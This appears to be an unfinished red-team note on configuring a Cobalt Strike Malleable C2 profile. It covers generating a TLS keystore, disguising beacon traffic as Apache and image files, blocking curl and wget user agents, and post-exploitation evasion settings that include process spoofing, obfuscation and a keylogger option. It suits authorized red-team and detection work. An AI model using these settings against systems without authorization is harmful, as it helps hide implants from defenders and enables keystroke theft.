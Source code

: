 # Setup Malleable C2 Profile

Search Tag: #red-team-infrastructure #cobalt-strike

## 01 - Generate TLS Keystore

^24b8cf

- Modify in `teamserver` bash script.

```
keytool -keystore ./cobaltstrike.store -storepass <password> -keypass <password> -genkey -keyalg RSA -alias <alias_name> -dname "CN=www.website.com, OU=Company Inc., O=Company Name, L=San Francisco, S=California, C=US"

./TeamServerImage -Dcobaltstrike.server_port=50050 -Dcobaltstrike.server_bindto=0.0.0.0 -Djavax.net.ssl.keyStore=./cobalts
trike.store -Djavax.net.ssl.keyStorePassword=<password> teamserver $*
```

## 02 - Malleable C2 Profile

### 2.1 - Basics

#### 2.1.1 - Global Options

##### 2.1.1.1 - Auxiliary Settings

```
# Name of the C2 profile
set sample_name "<profile_name>";

# User Agent
set useragent "<user_agent>";

# Staging payloads (part of metasploit shellcode compatibility).
# Disabling it loses the ability to generate staging payloads.
set host_stage "<true | false>";

# Each pound (#) is replaced with a random hex value.

# Default name of pipe to use SMB Beacon's P2P communication.
set pipename "<namepipe>_##";

# Using staging payload for SMB Beacon's P2P communication.
set pipename_stager "<namepipe>_##";

# SSH client banner
set ssh_banner "OpenSSH 9.5";

# Pipe name for ssh sessions.
set ssh_pipename "<namepipe>_ssh_####";

# Sleep and Jitter (uses seconds).
set sleeptime "15";
set jitter    "30"; # Default jitter factor (0 - 99%)
```

#### 2.1.2 - Code Signing Certificate

- Refer to [[Setup Malleable C2 Profile#^24b8cf|generate TLS keystore]].

```
code-signer {
    set keystore "keystore.jks"; 
    set password "<password>";
    set alias    "<alias>";
    set timestamp "false";
    set timestamp "http://timestamp.digicert.com";
}
```

#### HTTP Block

##### HTTP Certificate

```
https-certificate {
	set C    "US"
	set CN   "www.website.com";
	set L    "San Francisco";
	set O    "Company Name";
	set OU   "Company Inc.";
	set ST   "California";
	set validity "365";
}
```

##### HTTP Config

- Just to take care of the default HTTP settings.

```
http-config {
	# Set Header names and values to make it seem like a webserver
     set headers "Date, Server, Content-Length, Keep-Alive, 
                    Connection, Content-Type";
     header "Server" "Apache";
     header "Content-Length" "";
     header "Keep-Alive" "timeout=5, max=100";
     header "Connection" "Keep-Alive”;
     
     header "Content-Type" "";
     set trust_x_forwarded_for "true";
     
     # Block specific User Agents
     set block_useragents "curl*,lynx*,wget*";
}
```

##### HTTP Staging (Metasploit compatible payloads)

TODO: Finish the rest of the HTTP code block and provide steps to append NOPs or byte encoded image file via `hexdump`.

```
http-stager {
     set uri_x86 "/filename_32.<gif | jpg | png | jpeg | woff | woff2 | tiff>"; 
     set uri_x64 "/filename_64.<gif | jpg | png | jpeg | woff | woff2 | tiff>";
     
     client {
	     parameter "id" "1234";
	     header "Cookie" "SomeValue";
	     
	 server {
	     header "Content-Type" "image/<gif | jpg | png | jpeg | woff | woff2 | tiff>"; 
	     output {
	          prepend "GIF89a"; 
	          print;
	     }
	}
}
```

##### HTTP GET Request Block

```
# Optionally you can add more http blocks by inserting variant names
# you can clearly see once you add a HTTP(S) listener
# http-get <variant_name> {

http-get {
	set verb "GET";
	set uri "";
}
```

##### HTTP POST Request Block

```
# Optionally you can add more http blocks by inserting variant names
# you can clearly see once you add a HTTP(S) listener
# http-post <variant_name> {

http-post {
	set verb "POST";
	set uri "";
}
```

##### HTTP Beacons

```
http-beacon {
    set library "winhttp";
}

http-beacon "wininet-beacon-variant" {
    set library "wininet";
}
```

#### DNS Block

```

```

### Post Exploitation Block (Evasion)

```
post-ex {
	# Spawn the beacons to default windows EXE binaries.
	set spawnto_x64 "%windir%\\sysnative\\dllhost.exe";
	set spawnto_x86 "%windir%\\syswow64\\dllhost.exe";
	
	# Obfuscate beacon strings
	set obfuscate "true";

	# smartinject
	set smartinject "true";
	
	# Disable AMSI feature. To enable it set it to "false"
    set amsi_disable "false";

	# Set a specific windows function for recording keystrokes
	set keylogger "GetAsyncKeyState";
}
```

---
## References

### HelpSystem Manual User Guide

- [HelpSystems User Guide](https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/topics/welcome_main.htm)

### Cobalt Strike Malleable C2 Profile

- [HelpSystems: Profile Language](https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/topics/malleable-c2_profile-language.htm)

- [HelpSystems: Self-signed SSL Certificates with SSL Beacon](https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/topics/malleable-c2_self-signed-ssl-certificates.htm)

- [HelpSystems: HTTP Server Configuration](https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/topics/malleable-c2_http-server-config.htm)

- [HelpSystems: HTTP Beacons](https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/topics/malleable-c2_http-beacons.htm)

- [HelpSystems: Malleable C2 DNS Beacons](https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/topics/malleable-c2_dns-beacons.htm)

- [HelpSystems: Profile Variants](https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/topics/malleable-c2_profile-variants.htm)

- [WhiteKnightLabs: Unleashing the Unseen: Harnessing the Power of Cobalt Strike Profiles for EDR Evasion](https://whiteknightlabs.com/2023/05/23/unleashing-the-unseen-harnessing-the-power-of-cobalt-strike-profiles-for-edr-evasion/)

- [Red Team Cobalt Strike 4.0 Malleable C2 Profile Guideline](https://infosecwriteups.com/red-team-cobalt-strike-4-0-malleable-c2-profile-guideline-eb3eeb219a7c)

- [Guide to Named Pipes and Hunting for Cobalt Strike Pipes](https://svch0st.medium.com/guide-to-named-pipes-and-hunting-for-cobalt-strike-pipes-dc46b2c5f575)

- [Cobalt Strike Malleable C2 Profile](https://unit42.paloaltonetworks.com/cobalt-strike-malleable-c2-profile/)

- [Help Malleable C2](https://download.cobaltstrike.com/help-malleable-c2)

- [RedTeaming CheatSheet: Cobalt Strike](https://github.com/0xJs/RedTeaming_CheatSheet/blob/main/cobalt-strike.md)

- [A Red Teamer Plays with JARM](https://www.cobaltstrike.com/blog/a-red-teamer-plays-with-jarm/)

- [Red-Team-Infrastructure-Wiki](https://github.com/bluscreenofjeff/Red-Team-Infrastructure-Wiki)